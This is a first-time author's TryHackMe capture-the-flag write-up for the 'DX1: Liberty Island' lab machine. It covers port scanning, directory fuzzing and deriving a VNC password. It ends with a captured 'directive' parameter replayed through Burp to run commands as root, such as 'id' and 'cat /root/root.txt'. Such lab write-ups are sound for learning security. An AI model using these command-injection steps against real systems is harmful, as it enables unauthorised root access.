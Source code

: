 # DX1-Liberty-Island
Simple Writeup of rooting DX1: Liberty Island
---
Hye, this is my first writeup doing root on vulnerable machine. Below i will paste the room's link that created by *Aquienas*                      
[DX1:Liberty Island](https://tryhackme.com/room/dx1libertyislandplde)  
	
---
# Port Scanning
First thing we gonna do if we are doing root on vulnerable machine is **scanning for the open ports of victim's  machine**.

For port scanning, i have used `nmap` tool with the following command : 

```
# nmap -sC -sV -v 10.10.116.49
PORT     STATE    SERVICE   VERSION
80/tcp   open     http      Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
| http-robots.txt: 2 disallowed entries 
|_/datacubes *
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: United Nations Anti-Terrorist Coalition
5901/tcp open     vnc       VNC (protocol 3.8)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_vnc-info: ERROR: Script execution failed (use -d to debug)
7778/tcp filtered interwise
```
The scan identified ports 80, 5901, and 7778 as opens, indicating that the server has ***tcp***, ***vnc*** and ***http*** services running. We also noticed that on port 80, we are given hint which lead us to enumerate the robots.txt

# Webpage Exploitation

Opening the webpage with firefox , "UNATCO" webpage is shown

![webpage](https://user-images.githubusercontent.com/87742813/197826740-79595df1-cc7a-4cf1-9c98-da30aa18c1ed.png)



In order to enumerate webpage, we have to access /robots.txt. Below is the result /robots.txt accessed.
```
http://10.10.116.49/robots.txt
# Disallow: /datacubes # why just block this? no corp should crawl our stuff - alex
```
Lets open the dir given which `/datacubes`.

![datacubes](https://user-images.githubusercontent.com/87742813/197827055-d79f8c57-e46b-40ae-a418-3e2ae800806f.png)


After deep exploring this directory , i made up with an assumption which is :

* `/0000` given is a sign that we can fuzz the dir up to 0002 or any higher values.

So ,i used to generate custom keywords/wordlists before fuzzing the directory by using `Crunch` tool with the following command :
```
crunch 4 4 0123456789 >> fuzz.txt 
```
![crunch](https://user-images.githubusercontent.com/87742813/197827245-6fe1e022-0737-4138-bbd8-28523f380ad9.png)


Then i'll fuzz the directory by using `dirsearch` tool with txt extension and supported with fuzz.txt wordlists. Below the following command :
```
# dirsearch -u http://ip_addr/datacubes -e .txt -w fuzz.txt

Extensions: .txt | HTTP method: get | Threads: 10 | Wordlist size: 10000

Error Log: /home/alien/.dirsearch/logs/errors-22-10-25_15-10-37.log

Target: http://10.10.116.49/datacubes/

[15:10:38] Starting: 
[15:10:38] 301 -  321B  - /datacubes/0000  -> http://10.10.116.49/datacubes/0000/
[15:10:39] 301 -  321B  - /datacubes/0011  ->  http://10.10.116.49/datacubes/0011/
[15:10:40] 301 -  321B  - /datacubes/0068  ->  http://10.10.116.49/datacubes/0068/
[15:10:41] 301 -  321B  - /datacubes/0103  ->  http://10.10.116.49/datacubes/0103/
[15:10:44] 301 -  321B  - /datacubes/0233  ->  http://10.10.116.49/datacubes/0233/
[15:10:49] 301 -  321B  - /datacubes/0451  ->  http://10.10.116.49/datacubes/0451/
```

We got 5 directories from the fuzzing and after exploring each directories, i found something that interest me on dir `/0451`.

![0451](https://user-images.githubusercontent.com/87742813/197827673-eae6ebe9-2171-4e9f-9b39-ba395fde9774.png)

Then i add badactors.html as a dir and found page tht list many usernames (could be real badactor hehe) and based on the hint given, the person that quoted is JL , so i assume the badactors is jlebedev.

![badactors](https://user-images.githubusercontent.com/87742813/197828856-ddc33a64-180e-4de9-8f88-b127954987ff.png)

At this point, im so clueless then i decide to search on google what is actually **hmac** and **vnc login**, i found out tht hmac can be used as decode type, so i tried to decode the clue `smashthestate` by md5 hashing and insert `jlebedev` as a key. 

![cybershef](https://user-images.githubusercontent.com/87742813/197831711-ed3deaa5-e5ba-48c0-9d76-00169d3c2508.png)

and we will get the password as mentioned that the first 8 character of decoded text which is **311781a1**.

---
# Initial Foothold

I started the exploitation by connecting on **VNC-login** by using the command :

`vncviewer ip_addr:5901` and followed by inserting the password
 
 ![vnc-login](https://user-images.githubusercontent.com/87742813/197833417-c90cad1e-f1aa-4e6d-bfce-84b432214354.png)

#### 1ST flag achieved

Here i got the user.txt 

![user txt](https://user-images.githubusercontent.com/87742813/197834198-38560d4d-c3a4-43e0-9a4c-31c73bcfc8a3.png)

---
# Root

After a few minutes researching and exploring, i think maybe badactor list can be something like a function for us to root the machine. So, i spawn the command :

`python3 -m http.server 8080` on the vnc-terminal and following by `wget http://ip_addr/badactors-list` to download the badactor file to my attack machine.

![wget](https://user-images.githubusercontent.com/87742813/197835569-871d973c-d20e-4728-b2bc-687d7639e1ee.png)

then i change the permission of badactors-list file by using the command :
`chmod 777 badactors-list` and continued by `./badactors-list`

![badactor](https://user-images.githubusercontent.com/87742813/197836686-401f6dbf-322d-4af5-bc76-dc7378018f19.png)

but it cant get me into the vnc, i decide to add the UNATCO in my /etc/hosts and run it again

![etc](https://user-images.githubusercontent.com/87742813/197837478-afd476cf-6b8a-4754-be63-203fee35640a.png)

then i intercept the traffic by using **Wireshark** with *tun0* interface.

![wireshark](https://user-images.githubusercontent.com/87742813/197837732-f86b4714-286b-4221-989a-44ba71c3484d.png)

Boom!! we got a few hints by following the **TCP stream** that maybe useful for us to root the machine.

* Port: 23023
* Clearance-Code: 7gFfT74scCgzMqW4EQbu
* directive:cat+%2Fvar%2Fwww%2Fhtml%2Fbadactors.txt

---
Then i open my Burpsuite, open the proxy and turn on the intercept in order to catch the raw traffic on the host `http://ip_addr:23023` 

Send the traffic caught to the repeater >> send to the response

By the way, dont forget to change request method and insert all the hints given.

![burpdirective](https://user-images.githubusercontent.com/87742813/197840435-d7d3c7b9-28ba-4458-8926-83d251fd5713.png)

After we complete the process asked, we replace:

`directive:cat+%2Fvar%2Fwww%2Fhtml%2Fbadactors.txt` to `directive:id`

![root](https://user-images.githubusercontent.com/87742813/197841105-0a0943b3-929e-45c1-80d4-639c47503796.png)

BOOM 2.0!! we got root access.

You can get the root.txt by replace `id` to `cat /root/root.txt`

Thats all from me, 
TBH, im doing this room about 3 hours(describing how noob i am...k bye






